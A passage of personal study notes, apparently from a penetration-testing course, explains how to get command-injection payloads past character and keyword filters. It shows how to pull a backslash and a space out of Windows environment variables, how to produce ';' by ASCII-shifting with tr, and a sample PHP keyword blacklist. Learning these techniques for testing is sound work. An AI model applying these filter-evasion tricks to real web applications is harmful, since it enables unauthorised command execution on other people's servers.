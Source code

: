 ![[Pasted image 20240502142711.png]]

#### and we successfully pass blacklisted operator `;` and character `space`

![[Pasted image 20240502143129.png]]

### windows

#### extract `\`

CMD
```
echo %HOMEPATH:~6,-11%
```

![[Pasted image 20240502143617.png]]

POWERSHELL
```
$env:HOMEPATH[0]
```

![[Pasted image 20240502143729.png]]

```
$env:PROGRAMFILES[10]
```

gives space

#### character shifting

suppose if we want `\` which is 92 in ascii so use `[` character which is 91 in ascii

```
echo $(tr '!-}' '"-~'<<<[)
```

below gives `;`
; -> 59
so use 58 character in ascii
```
echo $(tr '!-}' '"-~'<<<:)
```



## Bypass blacklisted commands

![[Pasted image 20240502151322.png]]

sometimes it happened that commands also get blacklisted

```
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

